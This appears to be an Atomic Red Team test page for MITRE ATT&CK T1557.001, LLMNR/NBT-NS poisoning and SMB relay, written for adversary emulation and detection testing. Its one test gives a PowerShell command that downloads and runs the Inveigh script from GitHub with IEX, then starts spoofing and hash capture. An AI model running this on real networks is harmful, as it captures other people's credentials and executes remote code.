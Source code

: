# T1557.001 - Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1557/001)
<blockquote>By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials. 

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name. (Citation: Wikipedia LLMNR) (Citation: TechNet NetBIOS)

Adversaries can spoof an authoritative source for name resolution on a victim network by responding to LLMNR (UDP 5355)/NBT-NS (UDP 137) traffic as if they know the identity of the requested host, effectively poisoning the service so that the victims will communicate with the adversary controlled system. If the requested host belongs to a resource that requires identification/authentication, the username and NTLMv2 hash will then be sent to the adversary controlled system. The adversary can then collect the hash information sent over the wire through tools that monitor the ports for traffic or through [Network Sniffing](https://attack.mitre.org/techniques/T1040) and crack the hashes offline through [Brute Force](https://attack.mitre.org/techniques/T1110) to obtain the plaintext passwords. In some cases where an adversary has access to a system that is in the authentication path between systems or when automated scans that use credentials attempt to authenticate to an adversary controlled system, the NTLMv2 hashes can be intercepted and relayed to access and execute code against a target system. The relay step can happen in conjunction with poisoning but may also be independent of it. (Citation: byt3bl33d3r NTLM Relaying)(Citation: Secure Ideas SMB Relay)

Several tools exist that can be used to poison name services within local networks such as NBNSpoof, Metasploit, and [Responder](https://attack.mitre.org/software/S0174). (Citation: GitHub NBNSpoof) (Citation: Rapid7 LLMNR Spoofer) (Citation: GitHub Responder)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)](#atomic-test-1---llmnr-poisoning-with-inveigh-powershell)


<br/>

## Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)
Inveigh conducts spoofing attacks and hash/credential captures through both packet sniffing and protocol specific listeners/sockets. This Atomic will run continuously until you cancel it or it times out.

**Supported Platforms:** Windows


**auto_generated_guid:** deecd55f-afe0-4a62-9fba-4d1ba2deb321






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/82be2377ade47a4e325217b4144878a59595e750/Inveigh.ps1" -UseBasicParsing)
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -MDNS Y -HTTPS Y -PROXY Y
```






<br/>
